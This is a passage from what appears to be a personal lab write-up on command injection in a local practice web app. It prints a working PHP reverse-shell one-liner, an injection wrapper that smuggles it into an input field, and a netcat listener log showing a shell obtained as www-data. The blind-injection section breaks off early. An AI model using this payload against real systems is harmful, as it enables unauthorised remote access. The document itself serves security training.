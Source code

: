 Lets just try a PHP payload
`https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#php`

try this one `php -r '$sock=fsockopen("10.0.0.1",4242);exec("/bin/sh -i <&3 >&3 2>&3");'[](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#__codelineno-23-2)`

and paste in between 
`;paste;#`
Set the ip address and start the listener 

```sh
┌──(cyber㉿kali)-[~/Desktop/bugbounty]
└─$ nc -lvnp 4242
listening on [any] 4242 ...
connect to [192.168.100.42] from (UNKNOWN) [172.18.0.4] 59054
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ hostname
c418d623de39
$ 
```

==================================================================



# ==Blind Command Injection==

https://book.hacktricks.xyz/pentesting-web/command-injection

## [Labs](http://localhost/index.php) / Command Injection 0x02

## Network check


Same situation in here 
## Network check

Check target

Target: http://localhost

---

## Website OK

This returns Website OK means we probably have blind command injections
now we will try this query
## [Labs](http://localhost/index.php) / Command Injection 0x02

